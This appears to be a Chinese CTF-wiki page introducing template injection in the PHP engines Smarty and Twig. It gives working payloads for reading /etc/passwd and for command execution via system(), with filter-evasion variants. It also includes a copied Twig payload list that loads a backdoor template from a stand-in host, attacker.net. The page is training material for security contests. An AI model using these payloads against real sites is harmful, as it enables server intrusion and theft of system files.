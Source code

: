 # PHP模板
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



单独拉flask来说是因为它实在是感觉非常重要，而且是理解运用其他模板的基础（c语言？）


接下来是两个php相关的模板



## smarty

Smarty是一个PHP的模板引擎，提供让程序逻辑与页面显示（HTML/CSS）代码分离的功能。


这个模板好像是有些年头了，碰到的次数也是很少，但比赛可不会管你学没学会不会，所以还


是在这简单的介绍介绍。（我是想拉个例题的，但是没找到）


利用方式：（搬运工


一般情况下输入{$smarty.version}就可以看到返回的smarty的版本号


Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。（Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。）


`{literal}`可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。


**通过self获取Smarty类再调用其静态方法实现文件读写被网上很多文章采用。**


Smarty类的getStreamVariable方法的代码如下：


```plain
public function getStreamVariable($variable){        $_result = '';        $fp = fopen($variable, 'r+');        if ($fp) {            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {                $_result .= $current_line;            }            fclose($fp);            return $_result;        }        $smarty = isset($this->smarty) ? $this->smarty : $this;        if ($smarty->error_unassigned) {            throw new SmartyException('Undefined stream variable "' . $variable . '"');        } else {            return null;        }    }
Plain Text
```



可以看到这个方法可以读取一个文件并返回其内容，所以我们可以用self来获取Smarty对象并调用这个方法，很多文章里给的payload都形如：{self::getStreamVariable(“[file:///etc/passwd](file:///etc/passwd)”)}。





Smarty的{if}条件判断和PHP的if非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}，也可以使用{else} 和 {elseif}，全部的PHP条件表达式和函数都可以在if内使用，如||*, or, &&, and, is_array(), 等等，如：{if is_array($array)}{/if}*那么同样的，在利用的过程中{ifsystem(‘cat \flag’)}{/if},亦或者是{if readfile (‘/flag’)}{/if}


大概就这么点了，对了例题：（自己去搜搜）


CISCN2019华东南赛区Web11


[BJDCTF2020]The mystery of ip

## twig

另外一个php模板，其实有三个，这里只写了两个，剩下的那个实在是没有遇见过


这个也挺少见的（对我来说


所以我更倾向于~~只能~~放一些暴力一点的payload了


```plain
Twig - Basic injection
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{app.request.server.all|join(',')}}
Twig - Template format
$output = $twig > render (
'Dear' . $_GET['custom_greeting'],
array("first_name" => $user.first_name)
);
$output = $twig > render (
"Dear {first_name}",
array("first_name" => $user.first_name)
);
Twig - Arbitrary File Reading
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
Twig - Code execution
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
Example with an email passing FILTER_VALIDATE_EMAIL PHP.
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
嗯是的，没错，就是这样（指白嫖怪）
Plain Text
```



来自github上某位老哥的杰作。












